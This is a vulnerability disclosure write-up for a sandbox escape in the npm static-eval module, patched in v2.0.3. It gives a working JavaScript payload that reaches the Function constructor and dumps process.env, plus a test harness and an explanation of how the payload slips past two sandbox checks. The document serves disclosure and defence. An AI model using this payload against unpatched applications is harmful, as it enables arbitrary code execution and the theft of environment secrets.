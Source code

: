 Github: https://github.com/browserify/static-eval

Npm: https://www.npmjs.com/package/static-eval

The static-eval module is used to evaluate statically-analyzable expressions

Matt Austin has found the first sandbox escape vulnerability in the module1, the patch he proposed was bypassed later by Matías Lang 2, Matías's technique relied on the knowledge of a variable name that is passed to Static-eval "vars" variable, and he proposed a patch that protects against his technique. I have found a new exploitation technique that bypasses Matt's patch and doesn't rely on using variable names passed to the "vars" variable which make it more dangerous.

The payload
----------
```
 #nodejs eval.js '(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")("console.log(process.env)")()'
 #cat eval.js 
 var evaluate = require('static-eval'); 
 var parse = require('esprima').parse; 
 var src = process.argv[2]; 
 var ast = parse(src).body[0].expression; 
 console.log(evaluate(ast))
```
[IMAGE]
Restriction - 1
--------------
```
 else if (node.type === 'MemberExpression') { 
 var obj = walk(node.object); 
 // do not allow access to methods on Function 
 if((obj === FAIL) || (typeof obj == 'function')){ 
 return FAIL; 
 }
```
The above check makes sure that the user input doesn't call a function method, this will protect against normal payloads like:
```
"".constructor.constructor
```
because typeof ```"".constructor == 'function'```.

Restriction - 2
----------------
```
for(var i=0; i<node.params.length; i++){ 
 var key = node.params[i]; 
 if(key.type == 'Identifier'){ 
 vars[key.name] = null; 
 } 
 else return FAIL; 
 }
```
If the user input contains a function definition “FunctionExpression”, Static-eval will set the value for all the function arguments to null during the AST parsing, however when the function is being executed in runtime its arguments will receive their values from the call statement

Bypassing the restrictions
------------------------
I created a payload that will trick the first restriction by providing a fake object of type "object" during the AST parsing and provide the correct object of type function during the runtime.

**during the AST parsing:**
```
y=null 
""[!y?"__proto__":"constructor"] ===evaluate===> ""["__proto__"] ===> which has typeof = "object" ===> restrictions bypassed :)
```
**during the runtime:**
```
y="constructor" 
""[!y?"__proto__":"constructor"] ===evaluate===> ""["constructor"] ===> access gained to constructor function
```
Timeline
-----------
The Issue was reported to NPM on 7-Oct-2019
Fixed on v2.0.3 ```https://github.com/browserify/static-eval/releases/tag/v2.0.3```

References
---------
1 https://maustin.net/articles/2017-10/static_eval
2 https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/

